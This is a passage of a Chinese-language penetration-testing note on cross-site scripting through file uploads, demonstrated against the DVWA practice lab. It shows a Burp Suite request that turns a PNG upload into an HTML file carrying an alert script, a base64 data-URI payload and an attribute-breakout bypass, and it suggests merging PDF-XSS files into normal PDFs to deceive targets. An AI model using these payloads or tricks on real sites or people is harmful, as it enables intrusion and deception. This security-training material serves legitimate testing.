 在文件中嵌入恶意脚本后上传, 当目标加载文件时会触发 XSS 攻击.

常见的文件解析类 XSS 有 PDF-XSS, JPG-XSS, SVG-XSS, HTML-XSS, XML-XSS

> 触发 PDF-XSS 需要 PDF 查看器中可执行嵌入的 JavaScript, 如: Chromium
>
> 访问 PDF-XSS 链接时的请求参数不能随意删除, 否则无法触发
>
> 社工时可以使用 [iLovePDF](https://www.ilovepdf.com/zh-cn/merge_pdf) 将正常 PDF 与 PDF-XSS 合并
>
> 由于 PDF-XSS 只能弹窗, SRC 一般不收,要留意公告

> 触发 JPG-XSS 需要目标可解析 EXIF, 如: [Online EXIF Viewer](https://onlineexifviewer.com/)

若目标仅在前端校验可上传一张 PNG 文件，然后在 Burp Suite 中修改为 HTML

```http
Content-Disposition: form-data; name="uploaded"; filename="XSS.png"

 PNG
```

```http
Content-Disposition: form-data; name="uploaded"; filename="XSS.html"

 PNG
<script>alert(1);</script>
```

从 Burp Suite 中查找关键词 XSS.html 得到路径后访问 URL 即可触发 XSS

```
../../hackable/uploads/XSS.html succesfully uploaded!
```

```
http://debian.local/dvwa/hackable/uploads/XSS.html
```

某些情况下文件上传处是通过编码上传的, 可以通过修改文件类型及文件编码嵌入 XSS

```
data:image/png;base64,VGhpcyBpcyBhIHRlc3QgZmllbGQ=
```

```
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```

---

- [xss](https://github.com/jadensalas469466/tools/tree/main/hack/payload/xss)
- [pdfsvgxsspayload](https://github.com/ynsmroztas/pdfsvgxsspayload)

## 4. Bypass

引号闭合插入事件绕过

```
" onclick=alert(1);
```
